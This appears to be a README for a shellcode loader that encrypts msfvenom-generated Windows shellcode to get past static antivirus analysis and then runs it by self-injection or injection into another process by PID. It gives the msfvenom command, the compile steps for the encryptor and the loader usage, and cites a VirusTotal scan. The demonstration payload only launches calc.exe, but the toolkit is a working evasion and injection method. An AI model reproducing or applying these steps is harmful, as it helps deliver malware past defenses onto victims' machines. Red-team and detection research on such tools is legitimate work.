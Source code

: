 #


Example shellcode generation with msfvenom:

msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python | grep "buf +=" | cut -d'"' -f2 | tr -d ' ' | tr -d '\n'

First test : https://www.virustotal.com/gui/file/5757fe3deb98fc892b237ab370dc9cc51747b781e74e53e52cb2a907f1b32039

Static analysis bypass : 

use encrypt.exe
compile command: (with mingw)
gcc -o encrypt.exe better_encrypt.c -I"C:\msys64\mingw64\include" -L"C:\msys64\mingw64\lib" -funroll-loops -O3 -lssl -lcrypto

Usage example : 
./encrypt.exe <hex_file> aes_key.bin aed_iv.bin out.hex

The hex encrypted shellcode should be in out.hex

If you don't have the executable compiled, use "make" to compile it. You must have msvcpp installed and openssl. You will probably need to use your own paths for libs & includes.

Then we can just use the compiled executable with arg1 = encrypted shellcode and arg2 = "L$ L" for self-injection or " L$ H" for remote process execution and arg3 (optional) = process id if injecting into remote.

Example : 
```bash
./program.x64.exe L$ L
```
or for remote process injection :

```bash
./program.x64.exe $PID # replace $PID with the pid of an accessible program
```




